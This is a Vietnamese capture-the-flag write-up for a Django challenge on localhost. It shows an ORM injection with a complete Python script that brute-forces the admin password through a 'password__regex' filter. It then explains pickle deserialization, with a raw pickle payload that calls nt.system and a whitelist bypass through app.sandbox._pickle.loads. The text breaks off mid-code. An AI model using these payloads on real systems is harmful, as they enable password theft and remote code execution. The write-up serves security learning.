MỤC LỤC

[MỤC LỤC [2](#_Toc220462375)](#_Toc220462375)

[1.1 Nhận xét cấu trúc web site như sau :
[3](#_Toc220462376)](#_Toc220462376)

[1.2 Tấn công ORM injection : [3](#_Toc220462377)](#_Toc220462377)

[1.3 Pickle Deserialization Attack [9](#_Toc220462378)](#_Toc220462378)

[1.3.1 Lí thuyết pickle sẽ đơn giản như sau
[10](#_Toc220462379)](#_Toc220462379)

[1.3.2 opcode là gì– cái để chúng ta có thể unpickle =))
[12](#_Toc220462380)](#_Toc220462380)

[1.3.3 quá trình load/loads nó sẽ diễn ra như nào ( lưu ý nó chỉ đúng
nếu object có hàm \_\_reduce\_\_) [13](#_Toc220462381)](#_Toc220462381)

[1.3.4 Thực hiện tấn công vào web [14](#_Toc220462382)](#_Toc220462382)

Bài Web4 này là bài có độ khó cao nhất trong phần thi web và nó cho biết
src - tấn công whitebox ở bài này nó chỉ cho gợi ý “opcode ?”

1.  Nhận xét cấu trúc web
    site như sau :

* Tổng quan cấu trúc thư mục:

Root (thư mục gốc / )

- manage.py → file chạy server Django

- requirements.txt → danh sách thư viện Python

- db.sqlite3 → database SQLite (lưu user / dữ liệu)

- Dockerfile → chạy bằng Docker

*  Backend Django (phần xử lý)

registration/ (Project Django)

- Đây là “project chính” chứa cấu hình toàn hệ thống:

- settings.py → cấu hình Django (apps, database, static, templates,…)

- urls.py → map đường dẫn URL → view xử lý

- wsgi.py, asgi.py → để deploy/run server

app/ (Django app)

Đây là “ứng dụng” xử lý nghiệp vụ chính:

- views.py ⭐ quan trọng nhất → xử lý đăng ký, đăng nhập, trang home,
  admin…

- models.py → model database (hiện đang trống, vì bạn dùng User mặc định
  của Django)

- sandbox.py → có chức năng unpickle() (liên quan xử lý admin)

* Routing (URL chạy như nào)

Trong registration/urls.py web của bạn có các route:

| **URL**  | **Chức năng**              |
|----------|----------------------------|
| /        | Signup (đăng ký)           |
| /login/  | Login (đăng nhập)          |
| /home/   | Trang Home (sau khi login) |
| /admin/  | Trang admin (chỉ staff)    |
| /logout/ | Đăng xuất                  |

2.  Tấn công ORM
    injection :

Tôi tạo 1 tài khoản (username:pass)=a:123

Và kiểm tra api (/home)



Kiểm tra hàm Homepage backend tương ứng với api /home



\- Bài phân tích khá dài nên là mọi người tự đọc hiểu code ( cũng dễ
hiểu thôi ) , **chú ý ở đoạn code trên dòng code ( user =
User.objects.filter(\*\*user_data).first() )** **gây ra sự thiếu an toàn
,** **lỗ hổng ORM Injection cho phép attacker thao túng được các tham số
truy vấn cụ thể như sau**



Ta thực hiện tấn công ORM chèn thêm tham số truy vấn
password\_\_regex=^x –( kí tự đầu tiên có phải là ‘x’ không ? ) với ý
tưởng kiểm tra từng kí tự giống bài web0

Thì ban đầu tôi tự tạo cho mình 1 tài khoản là a:123 nên tôi sẽ thử
nghiệm password\_\_regex=^0 =\> nó phải trả về not_found , và
password\_\_regex=^1 =\> nó phải trả về kq giống như trên.



🡺 notfound



🡺 Found

Như vậy đã thực thi tấn công thành công nó cho phép ta check tài
khoản:mật khẩu của một người dùng bất kì trong db

Ở bài này thì ta có trang admin nên phải có tài khoản admin để truy cập
, tôi thử check thì có tài khoản admin đc lưu trong đb .



Với ý tưởng y hệt bài web 0 nếu tìm thấy tài khoản hợp lệ với username=
admin và password\_\_regex=^x , nếu đúng thì trả về gói tin có độ dài
3570 ngược lại nếu k tìm thấy trả về gói tin có độ dài 3522 , check từng
kí tự của mật khẩu admin , nếu tới 1 vị trí nào đó mà check hết các kí
tự rồi mà k trả về gói tin có size 3570 , tức là mật khẩu đã kết thúc
trả về kết quả cuối cùng là mật khẩu admin . đó mọi người tự viết haay
bảo AI nó sinh code cho nhanh ) ví dụ đoạn ở dưới

import requests

import string

url = "http://localhost:8000/home/"

\# Cookies từ request của bạn

cookies = {

'csrftoken': '0CucZhcF3ATK3b9uiXq0ZNpveXlraYxy',

'sessionid': 'dzj9vqyp0cxe0regeycio4r6upqccfwu'

}

\# CSRF token từ body request

csrf_token =
'08OkJQzenlli47MjeOhp0YQHA1poRwsrQA8myXBJgL4SX8LDmBxfPB52EOAFRkPP'

\# Charset để thử

charset = string.ascii_lowercase + string.ascii_uppercase +
string.digits + "!@#\$%^&\*()\_+-=\[\]{}\|;:,.\<\>?"

\# Biến lưu password

password = ""

max_length = 200

print(f"\[\*\] Username: admin")

print(f"\[\*\] Charset: {charset}")

print("-" \* 60)

\# Brute-force từng vị trí

for position in range(1, max_length + 1):

found_char = False

\# Thử từng ký tự

for char in charset:

\# Escape các ký tự đặc biệt cho regex

if char in r'\\^\$\*+?{}\[\]()\|\\':

test_char = '\\' + char

else:

test_char = char

\# Tạo regex pattern: ^\<password hiện tại\>\<ký tự đang test\>

regex_pattern = f"^{password}{test_char}"

\# Payload

payload = {

'csrfmiddlewaretoken': csrf_token,

'username': 'admin',

'password\_\_regex': regex_pattern

}

\# Headers giống với request gốc

headers = {

'Cache-Control': 'max-age=0',

'sec-ch-ua': '"Not_A Brand";v="8", "Chromium";v="120"',

'sec-ch-ua-mobile': '?0',

'sec-ch-ua-platform': '"Linux"',

'Upgrade-Insecure-Requests': '1',

'Origin': 'http://localhost:8000',

'Content-Type': 'application/x-www-form-urlencoded',

'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64)
AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.199
Safari/537.36',

'Accept':
'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,\*/\*;q=0.8,application/signed-exchange;v=b3;q=0.7',

'Sec-Fetch-Site': 'same-origin',

'Sec-Fetch-Mode': 'navigate',

'Sec-Fetch-User': '?1',

'Sec-Fetch-Dest': 'document',

'Referer': 'http://localhost:8000/home/',

'Accept-Encoding': 'gzip, deflate, br',

'Accept-Language': 'en-US,en;q=0.9',

'Connection': 'close'

}

try:

\# Gửi request

response = requests.post(url, data=payload, cookies=cookies,
headers=headers)

response_length = len(response.content)

\# Kiểm tra response

\# Nếu tìm thấy user -\> password regex match

if 'Username is not found' not in response.text and 'error_message' not
in response.text:

password += char

found_char = True

print(f"\[+\] Position {position}: '{char}' \| Password so far:
{password}")

break

else:

continue

except Exception as e:

print(f"\[!\] Error testing char '{char}': {e}")

continue

\# Nếu không tìm thấy ký tự nào ở vị trí này

if not found_char:

print(f"\[\*\] No character found at position {position}")

print(f"\[\*\] Password complete: {password}")

break

print("-" \* 60)

print(f"\[✓\] Final Password: {password}")

print(f"\[✓\] Password Length: {len(password)}")

 và mật khẩu cuối cùng
là(0up8XDN9Uz4Qw5fcVXJYdzMSN8Nr33ZfKgLjiHrmoxF7NQ66L045lC6UernscZEbryLHb0WKjey3Z8gZGJQbmiAds65Vc6fOIrvVFXl5aPp0RH8pA44OZmjqWGxJisWe)
128 kí tự mà check bằng intruder của burp thì có mà ngớ người

Như vậy trên đây là thực thi tấn công ORM injection

3.  Pickle
    Deserialization Attack

Tiếp theo tới phần tấn công tuần tự hóa – giải tuần tự hóa

Tới trang chủ admin ta chỉ có 1 text-box với y/c nhập Your Pickle Data..

Hàm AdminPage là backend xử lí cho api /admin





Đọc code thì ta thấy nó lấy data từ request rồi gọi tới hàm unpickle (
hàm unpickle được viết trong file sandbox.py )

Ta kiểm tra file sandbox.py



4.  Lí thuyết pickle sẽ
    đơn giản như sau

Đến đây mọi người đọc code và tìm hiểu về modul pickle của python ( link
tham khảo
<https://dev.to/leapcell/hacking-with-pickle-python-deserialization-attacks-explained-2gkl>)

Khi unpickle (pickle.load/loads) dữ liệu không tin cậy, nếu trong pickle
data có “recipe” sử dụng cơ chế \_\_reduce\_\_ (reduction protocol) thì
nó có thể khiến Python gọi một hàm tùy ý trong quá trình dựng lại object
→ dẫn đến RCE / thực thi code. Tại sao thực thi thì đọc thêm nhé

Kẻ tấn công tạo ra payload pickle (thường bằng class có \_\_reduce\_\_)
để ép Unpickler gọi callable mà attacker chọn, khi nạn nhân
load

Ở ví dụ trong tài liệu tham khảo thì class \_Unpickler trong modul
pickle là mặc định còn ở bài web này thì class \_Unpickle đã đc class
RestrictedUnpickler khai báo kế thừa – Mục đích tác giả có thể chỉnh sửa
và chèn các blacklist whitelist như 1 biện pháp phòng thủ cho class
\_Unpickle gốc .

5.  opcode là gì– cái để
    chúng ta có thể unpickle =))

\- Vậy đọc 1 thôi 1 hồi thì cơ bản mình sẽ làm ví dụ như sau


\- Trên ảnh trên các bạn có thể thấy được pickle bytecode của class là
pickle byte (pickle bytecode) của “kết quả \_\_reduce\_\_”

b'\x80\x04\x95\$\x00\x00\x00\x00\x00\x00\x00\x8c\x02nt\x94\x8c\x06system\x94\x93\x94\x8c\x0cecho
Hacked!\x94\x85\x94R\x94.'

\- Gửi cho gpt nó phân tích để hiểu opcode thì đơn giản như sau

- -
Các bạn hiểu hết thì càng tốt nma mình nghĩ cần chắc chắn phải hiiểu 1
số quy tắc.

\+ Các string “nt” ,“system”, “echo Hacker!” được đẩy vào stack. ( dòng
3,dòng 5, dòng 9)

\+ Trước các đoạn string đó nó có khai báo độ dài string x02 là độ dài
string = 2, x06 độ dài string = 6 , x0c độ dài string = 12 , khai báo ở
dạng hex.

Sau khi load nó sẽ thực thi được hàm nt.system(“echo hacker!”) =\> “nt”
là alies ở window ( bài này tôi đang chạy trên môi trường win ) còn ở
linux thì là “os.system(“echo hacker!”)” và trả lại kq sau khi load Tại
sao cần phải hiểu vì tí nữa tôi sẽ chỉ injection vào các pickle byte này
nên cần khai báo đúng quy tắc

6.  quá trình load/loads
    nó sẽ diễn ra như nào ( lưu ý nó chỉ đúng nếu object có hàm
    \_\_reduce\_\_)

\- Hàm Unpickler.load()

- pickle.load(file) thực chất tạo một pickle.Unpickler(file) và gọi
  .load().

- pickle.loads(bytes) tương tự nhưng đọc từ bytes.

> =\> Bên trong .load(), Unpickler đọc từng “opcode” trong pickle stream
> và thực hiện stack machine để dựng lại object.

\- Khi **pickle.loads() / pickle.load()** gặp một object mà **trong dữ
liệu pickle** có “recipe” theo **reduction protocol** (tức là được tạo
ra từ \_\_reduce\_\_ / \_\_reduce_ex\_\_ lúc dump), thì quá trình
**load** diễn ra :

**+ Unpickler đọc byte stream theo opcode (stack machine)**

- Unpickler.load() đọc từng opcode và thao tác trên **stack**.

- Với object kiểu reduction, trong stream thường sẽ có các bước kiểu:

  1.  “đưa module + name lên stack”

  2.  resolve thành **callable**

  3.  đưa **args** lên stack

  4.  tạo tuple args

  5.  gọi callable

**+ Resolve callable bằng find_class(module, name) Cái này rất quan
trọng cần phải hiểu nhé 2 bước cơ bản như dưới đây thôi**

- lấy module và name (string) từ stream/stack gọi:  
  **find_class(module, name) =\> nó sẽ đọc các string trong stack và giá
  trị của modul = “nt” và name= “system” =\> Ở sandbox trong backend nó
  có build lại hàm find_class của class Unpickle với blacklist và
  whitelist thì mọi người cần phải hiểu khi đẩy 1 pickle byte cho
  backend thì modul sẽ có giá trị như nào , name sẽ có giá trị như nào
  để bypass.Còn hàm find_class mặc định của pickle nó sẽ chỉ đơn giản
  chạy xuống bước tiếp theo mà không kiểm tra backlist và whitelist** .
  Mọi người cũng nên tìm hiểu lại hàm find_class mặc định của pickle nhé

- mặc định nó sẽ import module rồi getattr(module, name) để lấy object
  (hàm/class) tương ứng

<!-- -->

- Đây là bước biến "nt" + "system" thành đúng function nt.system (hoặc
  "builtins"+"list" thành builtins.list, v.v.)

**+ Tạo args tuple**

Tiếp theo stream sẽ chứa dữ liệu tham số (vd
string/number/list/bytes).  
Unpickler dựng chúng lên stack rồi dùng opcode TUPLE, TUPLE1/2/3… để gom
lại thành **args tuple**.

Ở ví dụ trên: string trong stack là "echo Hacked!" → ("echo Hacked!",)

**+ Gọi callable bằng opcode REDUCE**

Khi gặp opcode REDUCE (R), Unpickler sẽ:

- pop args_tuple ( lúc này nó có giá trị = “echo hacker!”)

- pop callable

- thực thi đúng ý nghĩa reduction:  
  **result = callable(\*args_tuple)** . Đây là điểm quan trọng: **trong
  lúc load, pickle có thể gọi hàm**

Kết quả result được push lại lên stack như “object đã được reconstruct”.

Mọi người cố gắng hiểu quá trình unpickle (loads/load) nhất là đoạn hàm
find_class nhé đoạn ý rất quan trọng

7.  Thực hiện tấn công
    vào web

Modul được phép trong white list



Và modul tôi chọn là modul app , vậy trong modul app có những gì:



Trong modul app có sandbox.py trong sandbox.py có gì ? nó có gì c



Hàm def unpickle , class RestrictedUnpickler không thể dùng được vì vẫn
phải đi qua blacklist và whitelist , class RestrictedUnpickler cũng vậy
. Nhưng mà sandbox.py nó còn import pickle as \_pickle tức là
app.sandbox.\_pickle.loads ,ta đã sử dụng được hàm loads hiểu đơn giản
modul= app , name=sandbox.\_pickle.load vượt qua hoàn toàn backlist và
thỏa mãn whitelist , hàm loads này được gọi từ \_pickle.loads (mặc định
của modul pickle) do đó không bị ảnh hưởng bởi whitelist/blacklist trong
RestrictedUnpickler của sandbox . Vậy nếu có hàm loads rồi thì sẽ làm gì
để thực thi code , vì loads cần byte pickle tạo bởi pickle.dumps , lúc
này ta sẽ tạo class-malicious độc hại như sau để nó load như sau ý tưởng
như sau app.sandbox.\_pickle.loads(class-malicious)

class u:

   def \_\_reduce\_\_(self):

    return (print,("class malicious khi load",))

 

class e: // backlist white list chỉ kiểm tra class này mà ta đã vượt qua
